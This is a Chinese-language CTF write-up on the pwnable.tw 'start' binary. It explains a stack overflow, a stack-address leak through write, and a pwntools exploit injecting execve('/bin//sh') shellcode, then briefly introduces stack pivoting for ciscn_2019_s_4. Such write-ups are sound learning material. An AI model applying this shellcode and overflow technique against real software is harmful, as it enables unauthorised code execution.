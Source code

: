 # pwnable_start

因为一个回车，调试了两个小时……真的服了，决定以后尽量用send而不是sendline

没有main函数，只有start，纯汇编。F5还不如看汇编。

![image-20210419165835047](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041741548.png)

![image-20210419165753744](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041741830.png)

如上图，先输出一句提示，然后从栈顶开始读入60个字节，但栈大小只有20字节，明显溢出了。没开NX，必然是ret2shellcode。但是我们需要知道shellcode写入的地址，才能跳转到shellcode

由于在start时首先push了esp，所以在返回地址下方其实就有栈地址，如下图，而且这个esp+4处保存的栈地址(0xffa8bd90)其实就是esp+8的值

![image-20210419170306702](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041741739.png)

我们可以通过第一次溢出使其返回至write函数，打印出这个地址，之后再次输入时，就是从0xffa8bd8c开始保存了

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p = process('./pwn')
p.recvuntil("Let's start the CTF:")
payload1 = b'a' * 20 + p32(0x08048087)
p.send(payload1)
stack_addr = u32(p.recvuntil("\xff")[-4:])
shellcode = asm("""
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
xor edx,edx
push 11
pop eax
int 0x80
""")
payload2 = b'a' * 20 + p32(stack_addr + 20) + shellcode
p.send(payload2)
p.interactive()
```

payload1发送时，写成了sendline，多出来的回车(0xa)覆盖了那个栈地址的最低位……调试良久后，终于发现了原因，痛心啊

# ciscn_2019_s_4

![image-20210421004709386](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041741690.png)

溢出大小仅为8，也就是仅能覆盖返回地址，不能构造很长的ROP链，必然是栈迁移

栈迁移，是做过的题型，但仍然不是很熟练，于是记录之
